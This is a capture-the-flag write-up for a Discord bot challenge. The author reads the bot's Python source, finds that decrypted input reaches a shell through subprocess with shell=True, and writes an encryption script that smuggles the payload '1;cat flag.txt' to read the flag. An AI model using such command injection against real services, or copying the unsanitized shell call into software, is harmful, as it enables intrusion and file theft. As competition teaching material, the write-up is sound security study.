 # CCSC2020
![Banner](banner.png)
## WriteUps for the Cyprus Cyber Security Challenge

![Jaskier Challenge](Jaskier.JPG)

At this challenge, we were provided with an automated Discord bot - Jaskier - which had the following functionalities:
!help !frappe !ls !pwd !viewcode <function> !revenc <string>

### !help
```
| Jaskier: |
==============================
!frappe

Return a frappe for you

!ls

Returns the contents of the home directory

!pwd

Returns the current directory

!viewcode <function>
  
Returns the code of the given function. Be careful with that one!
Available functions: decrypt, hmask, h_rotl, blockify, cnt, revenc, pwd, ls, frappe

!revenc <string>
  
Reverses an encrypted string
Example of reversing 'Hello World': !revenc SJVsbG9Ap2+yzGEA|
```
Thus I started playing around with these functions
The result of !ls returned 4 files:
.bashrc
.profile
.bash_logout
flag.txt

The goal became obvious: *Find a way to inject code from the revenc function so that to cat the flag.txt file and get the flag*. 

After gathering all the functions together with the help of the !viewsource function, and reassemblying the parts together I was  able to view the complete source code of the bot:

```python
BLOCK_SIZE = 2
TABLE_DIM = 4

def decrypt(ct):
    dec = [] 
    blocks = blockify(ct, BLOCK_SIZE, b'\x00') 
    for blk in blocks:
        blk_int = int.from_bytes(blk, byteorder='big')
        for n in range(TABLE_DIM, -1, -1):
            a,b = cnt(blk_int, TABLE_DIM, n)
            blk_int = h_rotl(blk_int, a, TABLE_DIM, b)
        dec.append(blk_int.to_bytes(BLOCK_SIZE, byteorder='big'))
    return b''.join(dec).strip(b'\x00')
def hmask(size, idx):
    return 2**size-1 << idx*size
#masking: setting size-1 bits on and shift them by idx*size 

def h_rotl(pt, rot, size, idx):
    """
    Horizontal left rotation. 
    """
    m = hmask(size, idx)
    blk = pt & m 
    #turning off idx*size bites from pt
    rot = rot % size
    #modulo
    r = ((blk << rot) | (blk >> (size - rot))) & m
    return pt ^ blk | r

def blockify(inpt, size, pad):
    return [inpt[i:i+size].ljust(size, pad) for i in range(0, len(inpt), size)]
    
def cnt(pt, size, idx):
    a,b = 0,0
    pt = pt >> idx * size
    for _ in range(size):
        if pt % 2 == 0: a+=1 
        else: b += 1 
        pt = pt >> 1
    return a,b

def revenc(ctx, params):
    try:
        dec_in = decrypt(base64.b64decode(params)).decode('utf-8')
        getResult = subprocess.Popen(f'echo {dec_in} | rev', shell=True, stdout=subprocess.PIPE).stdout
        result = getResult.read()
        await ctx.channel.send(result.decode())
        print(dec_in)
    except Exception as e:
        print(e)
        await ctx.channel.send("Ops, something went wrong..")  
```
This particular line caught my attention, since it was passing the result of the decryption function into a subprocess as a variable {dec_in} via shell (shell = True)! 
```python 
        getResult = subprocess.Popen(f'echo {dec_in} | rev', shell=True, stdout=subprocess.PIPE).stdout
```
Therefore all the environment variables and file globs could be accessed if we could inject the payload "1;cat flag.txt". 
By using the semicolon, we escape the brackets {}, and we assign the value 1 to the variable dec_in and we close the first argument. Then we can execute the command cat and extract the data from the flag file and voila, we have the flag.

The problem now is how can we assign these value to the dec_in variable.

Since we can only view the decryption function, we should create an encryption function, which will be encapsulating the string "1;cat flag.txt" to a form that after being decrypted would result to that plaintext in byte-form.

### Reversing the algorithm:

The cipher text was firstly been "blockified" into 4 by 4 blocks and then padded with null characters so that to match the desired size. Then with hmask() the blocks were shifted horizontaly using the parameters a and b. Since the shifting wasn't constant we had to construct an encyption function and take advantage of the existing cnt() function so that to   the value of a and b. 

### The solution:

The only thing left is to reverse the shifting in the h_rotr() function. Thus by providing the plaintext it can encode it using the same process in reverse. Then we encrypt the result in base 64 since at the decryption process is decrypted from base64 to bytes. Here is the complete source code.
```python
import base64
BLOCK_SIZE = 2
TABLE_DIM = 4

def h_rotr(pt, rot, size, idx):
  m = hmask(size, idx)
  blk = pt & m
  rot = rot % size
  r = ((blk >> rot) | (blk << (size - rot)))  & m #We change the shifting to reverse the decryption process
  return pt ^ blk | r

def encrypt(pt):
  enc = []
  blocks = blockify(pt, BLOCK_SIZE, b'\x00')
  for blk in blocks:
      blk_int = int.from_bytes(blk, byteorder='big')
      for n in range(TABLE_DIM):
          a,b = cnt(blk_int, TABLE_DIM, n)
          blk_int = h_rotr(blk_int, a, TABLE_DIM, b)
      enc.append(blk_int.to_bytes(BLOCK_SIZE, byteorder='big'))
  print(enc)
  return b''.join(enc)
  
def blockify(inpt, size, pad):
  return [inpt[i:i+size].ljust(size, pad) for i in range(0, len(inpt), size)]

def cnt(pt, size, idx):
  a,b = 0,0
  pt = pt >> idx * size
  for _ in range(size):
    if pt % 2 == 0: a+=1 
    else: b += 1 
    pt = pt >> 1
  return a,b

def hmask(size, idx):
  return 2**size-1 << idx*size

s = b'1;cat flag.txt'
print(s)
a = base64.b64encode(encrypt(s))
print(a)
```
We pass the output to the Jaskier bot and we get the flag

*!revenc kWtswbSAZmwxx47U2NQ=*

#### flag: CCSC{w1th_g3r4lt_0f_R1via_al0ng_c4me_th1s_b0t}
***
